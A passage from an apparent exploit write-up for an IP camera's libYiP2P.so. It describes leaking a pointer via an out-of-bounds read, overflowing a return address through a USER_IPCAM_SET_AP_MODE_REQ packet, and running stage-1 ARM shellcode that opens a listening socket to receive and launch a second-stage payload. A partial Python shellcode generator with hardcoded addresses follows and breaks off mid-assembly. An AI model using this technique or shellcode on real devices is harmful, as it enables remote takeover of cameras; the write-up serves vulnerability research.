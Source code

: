 We need a decent chunk of executable space to execute stage 1, we can use the 'offset' we use for the OOB read to give us lots of executable space in the ***libYiP2P.so*** memory that the packet lands in. If we set the offset to be large and put the *USER_IPCAM_SET_AP_MODE_REQ* overflow data after it (that will trigger the bug), we get a bunch of space between the end of the headers and the start of the *USER_IPCAM_SET_AP_MODE_REQ* data which is handy. 

It was easier to put the *USER_IPCAM_SET_AP_MODE_REQ* at the end as the length of this is variable - this just saves me changing the offset from the memory base that I jump to.

We can then use the OOB read bug to figure out the memory address from a leaked pointer, I used gdb to work out the difference between the leaked pointer and the address our stage 1 buffer ends up. Once we know the address, we know what to overflow the return address with when we trigger the *USER_IPCAM_SET_AP_MODE_REQ* overflow. 

## Stage 1

As this data is received using **recv** and doesn't have any annoying null issues (unlike everything else I seem to find), we don't need to worry about decoding it, we can just chuck shellcode into this buffer and execute it (as **libYIP2P.so** doesn't have NX enabled).

Our shellcode does the following:
1. **malloc** a buffer which has space for stage 2
2. Use **socket** to initialise a TCP socket
3. Create the **sockaddr** in memory that sets port number
4. Now call **bind** to bind the created socket to the port
5. Use **listen** to wait for incoming connections to the listening socket
6. Once past the **listen** call, use **accept** to accept the incoming connection
7. Now use **recv** to get stage 2, and save it to the buffer that was **malloc**'d at the start
8. We are done with the socket now, so **close** the socket
9. Spawn a thread using **ak_thread_create** that will execute stage 2
10. Now the stage 2 thread is running, we can exit the current thread (this thread is spawned for the session and then discarded after, so no harm done)

The assembly isn't that interesting, just loads of function calls and chucking stuff on the stack, but I'll put here anyway if you wanted to see some basic ARM assembly:

```
-python
def generate_stage_1_payload(payload_start, libc_base, target_length, stage_2_length):
	malloc_addr = 0x19498
	socket_addr = 0x19f54
	bind_addr = 0x1906c
	listen_addr = 0x1a2a8
	accept_addr = 0x1a1a0
	recv_addr = 0x195ac
	close_addr = 0x19ad4
	sleep_addr = 0x192a0
	  
	sockaddr_in_addr = 0x4b9748
	thread_id_addr = 0x4b9744
	create_thread_addr = 0x6eb2c
	detach_thread_addr = 0x1a308
	  
	ak_thread_exit_addr = 0x6ecd8
	  
	stage1_asm = f"""
	@ malloc some space and put location on stack
	ldr r0, =#{hex(stage_2_length)}
	ldr r12, =#{hex(malloc_addr)}
	blx r12
	stmdb sp!,{{r0}}
	cpy r5, r0
	  
	@ now call socket to get our socket fd and put fd on stack
	mov r0, #2
	mov r1, #1
```